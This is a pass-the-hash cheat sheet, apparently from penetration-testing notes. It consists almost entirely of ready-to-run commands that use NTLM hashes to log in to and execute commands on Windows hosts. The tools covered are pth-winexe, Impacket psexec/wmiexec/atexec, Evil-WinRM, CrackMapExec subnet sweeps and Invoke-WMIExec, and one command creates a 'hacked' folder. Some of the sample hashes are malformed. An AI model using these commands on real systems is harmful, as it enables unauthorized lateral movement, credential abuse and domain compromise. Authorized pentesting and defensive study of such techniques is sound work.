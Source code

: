 # Pass-The-Hash

## PTH Tools

### pth-smbclient

```
pth-smbclient -U ignite/Administrator%00000000000000000000000000000000:32196B56FFE6F45E294117B91A83BF38 //192.168.1.105/c$
```

### pth-wmic

```
pth-wmic -U ignite/Administrator%00000000000000000000000000000000:32196B56FFE6F45E294117B91A83BF38 //192.168.1.105 "select Name from Win32_UserAccount"
```

### pth-rpcclient

```
pth-rpcclient -U ignite/Administrator%00000000000000000000000000000000:32196B56FFE6F45E294117B91A83BF38 //192.168.1.105
```

### pth-net

```
pth-net rpc share list -U 'ignite\Administrator%00000000000000000000000000000000:32196B56FFE6F45E294117B91A83BF38' -S 192.168.1.105
```

### pth-winexe

```
pth-winexe -U Administrator%00000000000000000000000000000000:32196B56FFE6F45E294117B91A83BF38 //192.168.1.105 cmd.exe
```

### pth-curl

```
pth-curl --ntlm -u Administrator:32196B56FFE6F45E294117B91A83BF38 http://192.168.1.105/file.txt
```

## Impacket

### smbclient

We can use smbclient:

```
impacket-smbclient.py -hashes 00000000000000000000000000000000:32196B56FFE6F45E294117B91A83BF38 ignite/Administrator@192.168.1.105
python smbclient.py -hashes 00000000000000000000000000000000:32196B56FFE6F45E294117B91A83BF38 ignite/Administrator@192.168.1.105
```

### psexec

```
impacket-psexec.py  -hashes 00000000000000000000000000000000:32196B56FFE6F45E294117B91A83BF38 Administrator@192.168.1.105
python psexec.py -hashes 00000000000000000000000000000000:32196B56FFE6F45E294117B91A83BF38 Administrator@192.168.1.105
```

### wmiexec

```
impacket-wmiexec.py -hashes 00000000000000000000000000000000:32196B56FFE6F45E294117B91A83BF38 Administrator@192.168.1.105
python wmiexec.py -hashes 00000000000000000000000000000000:32196B56FFE6F45E294117B91A83BF38 Administrator@192.168.1.105
```

### rpcdump

```
impacket-rpcdump.py -hashes 00000000000000000000000000000000:32196B56FFE6F45E294117B91A83BF38 ignite/Administrator@192.168.1.105
python rpcdump.py -hashes 00000000000000000000000000000000:32196B56FFE6F45E294117B91A83BF38 ignite/Administrator@192.168.1.105
```

### atexec

```
impacket-atexec.py -hashes 00000000000000000000000000000000:32196B56FFE6F45E294117B91A83BF38 Administrator@192.168.1.105 whoami
python atexec.py -hashes 00000000000000000000000000000000:32196B56FFE6F45E294117B91A83BF38 Administrator@192.168.1.105 whoami
```

### lookupsid

```
impacket-lookupsid.py -hashes 00000000000000000000000000000000:32196B56FFE6F45E294117B91A83BF38 ignite/Administrator@192.168.1.105
python lookupsid.py -hashes 00000000000000000000000000000000:32196B56FFE6F45E294117B91A83BF38 ignite/Administrator@192.168.1.105
```

### samrdump

```
impacket-samrdump.py -hashes 00000000000000000000000000000000:32196B56FFE6F45E294117B91A83BF38 ignite/Administrator@192.168.1.105
python samrdump.py -hashes 00000000000000000000000000000000:32196B56FFE6F45E294117B91A83BF38 ignite/Administrator@192.168.1.105
```

### reg

```
python reg.py -hashes 00000000000000000000000000000000:32196B56FFE6F45E294117B91A83BF38 ignite/Administrator@192.168.1.105 query -keyName HKLM\\SOFTWARE\\Policies\\Microsoft\\Windows -s
```

\
Evil-WinRM
----------

Evil-WinRM Pass The Hash:

```bash
evil-winrm -i 10.10.10.161 -u 'Administrator' -H '32693b11e6aa90eb43d3372a07ceea6'
```

## Crackmapexec

Pass The Hash against the target:

```bash
cme smb 172.16.157.25 -u administrator -H 'aad3b435b51404eeaa35b51404ee:5509de4fa6e8d9f4a61100e51' --local-auth
```

Pass The Hash against subnet:

```bash
cme smb 172.16.157.0/24 -u administrator -H 'aad3b435b51404eeaa35b51404ee:5509de4fa6e8d9f4a61100e51' --local-auth
```

## PowerShell

### Invoke-WMIExec.ps1

```
Invoke-WMIExec -Target 192.168.1.105 -Domain ignite -Username Administrator -Hash 32196B56FFE6F45E294117B91A83BF38 -Command "cmd /c mkdir c:\hacked" -Verbose
```

